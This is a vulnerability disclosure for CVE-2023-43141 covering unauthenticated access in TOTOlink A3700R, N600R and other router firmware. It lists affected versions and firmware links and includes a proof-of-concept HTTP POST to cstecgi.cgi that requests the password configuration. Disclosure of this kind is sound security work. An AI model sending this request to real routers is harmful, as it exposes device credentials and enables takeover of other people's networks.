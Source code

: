 

# CVE-2023-43141

# TOTOlink A3700R(V9.1.2u.6134_B20201202),A7000R(V9.1.0u.6115_B20201022) and many other versions have unauthorized access vulnerabilities.

# Description

---

The attacker can gain unauthorized access to the interface, read configuration file information, and obtain access to the backend as well as other system services with open permissions.

# Firmware information

---

- Manufacturer's address: http://totolink.net/
- Firmware download address:(A3700R): https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/207/ids/36.html
- Firmware download address:(N600R): https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/160/ids/36.html

# Affected version

---

Version: A3700R(V9.1.2u.6134_B20201202)

![image-20230909144211545](https://blueandwhite.oss-cn-beijing.aliyuncs.com/blog/cve/image-20230909144211545.png)

Version:N600R(V4.3.0cu.7647_B20210106)

![image-20230909143902919](https://blueandwhite.oss-cn-beijing.aliyuncs.com/blog/cve/image-20230909143902919.png)

# Vulnerability details

---

POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.50.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://192.168.50.129
Connection: close
Referer: http://192.168.50.129/login.html

{"topicurl":"getPasswordCfg"}
```



![image-20230909142956661](https://blueandwhite.oss-cn-beijing.aliyuncs.com/blog/cve/image-20230909142956661.png)
